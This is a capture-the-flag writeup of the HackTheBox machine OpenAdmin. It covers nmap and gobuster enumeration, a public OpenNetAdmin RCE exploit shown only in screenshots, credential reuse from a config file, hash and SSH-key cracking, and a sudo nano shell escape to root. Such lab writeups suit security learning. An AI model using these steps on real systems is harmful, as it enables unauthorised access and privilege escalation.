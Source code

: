 ```yaml
---
layout: default
title : muzec - OpenAdmin Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/125621019-4f014d19-1a2e-43e1-87b6-9cee5f35bb6e.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Wed Jul 14 08:01:37 2021 as: nmap -sC -sV -oA nmap 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.40s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 14 08:02:55 2021 -- 1 IP address (1 host up) scanned in 78.33 seconds
```

Linux my food lol so we are working on OpenAdmin On HackTheBox we always kick off with Nmap scan now that we have our result let start enumerating seems we have 2 open ports.

![image](https://user-images.githubusercontent.com/69868171/125621350-ad1680bd-05a3-4e92-89e1-92dee5b063ff.png)

Ok that a default apache page now let hit `gobuster` to find some hidden directory.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.10.171]
└─$ gobuster dir -u http://10.10.10.171 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh,pl,cgi,zip
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              bak,sh,pl,cgi,zip,txt,php,html
[+] Timeout:                 10s
===============================================================
2021/07/14 10:24:24 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
```

Music directory cool let navigate to it.

![image](https://user-images.githubusercontent.com/69868171/125621953-9f49b763-bebb-4fb7-906a-4ef069c2d04f.png)

Going through the pages clicking on `login` land me on a new page.

![image](https://user-images.githubusercontent.com/69868171/125622083-5da5d1f6-235f-46c8-be23-535778b9b299.png)

Seems it running `OpenNetAdmin v18.1.1` let do a quick google search maybe it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/125622278-e80b5950-a86f-46b3-8a9e-4d02b522ced3.png)

![image](https://user-images.githubusercontent.com/69868171/125622336-41298a5b-e035-4264-b0e5-f97930a206c9.png)

Remote Code Execution  exploit let try it.

![image](https://user-images.githubusercontent.com/69868171/125622486-4d334f1d-1243-4734-9442-d9b1d05cb323.png)

We have shell cool.

![image](https://user-images.githubusercontent.com/69868171/125624083-155a81de-0780-4387-85f8-429d92409329.png)

Some users on the home directory but have no permission seems we need to move our privilege. Going through directories `/var/www/ona/local/config` i was able to get a credentials in a config file.

![image](https://user-images.githubusercontent.com/69868171/125624643-6bb4c25d-bd5c-46ea-b495-6972cd5d3009.png)

Now let SSH with user `jimmy` with the password.

![image](https://user-images.githubusercontent.com/69868171/125624857-6d5b23ee-1fe4-44f5-8e9e-f872adc4a095.png)

We are in i always love checking what ports we have ruuning locally with `netstat -tulpn` .

![image](https://user-images.githubusercontent.com/69868171/125625148-65457c60-8589-487e-bdab-285868a4e36f.png)


### SSH Port Forwarding

```
 ssh -L 52846:localhost:52846 jimmy@10.10.10.171
 ```
 
![image](https://user-images.githubusercontent.com/69868171/125625594-43420b73-92b9-4a99-8241-647647660aac.png)


Now let access it on our browser.

![image](https://user-images.githubusercontent.com/69868171/125625726-f1001f42-a87e-414e-919c-c9d56dee3d6e.png)

Seems we need a credentials i try using `Jimmy` creds but no luck now back to enumerate more.

![image](https://user-images.githubusercontent.com/69868171/125626115-44e8cc90-94a5-4f78-a3c8-354122e7175c.png)

Username and a hash let try cracking it using online tools.

![image](https://user-images.githubusercontent.com/69868171/125626320-607207f0-4f08-44c1-aed8-8998212ae62e.png)

Now let log in.

![image](https://user-images.githubusercontent.com/69868171/125626395-3b542e65-acab-4b66-8801-4610969c4590.png)

Boom we have `joanna` SSH private key. Let crack it and hit SSH.

![image](https://user-images.githubusercontent.com/69868171/125626949-33c1de5c-b537-4713-a58e-81880ce14f8e.png)

Now let SSH into the machine with the Private Key and the password we got from it.

![image](https://user-images.githubusercontent.com/69868171/125627303-907e3d17-6b41-4abe-979d-b4afad1f6582.png)

We are in and can run sudo on `/bin/nano /opt/priv` .

### ROOT

```
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

![image](https://user-images.githubusercontent.com/69868171/125628251-7cac9f03-0d45-4ba7-b56d-a49c3c05c678.png)


We are root and Done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
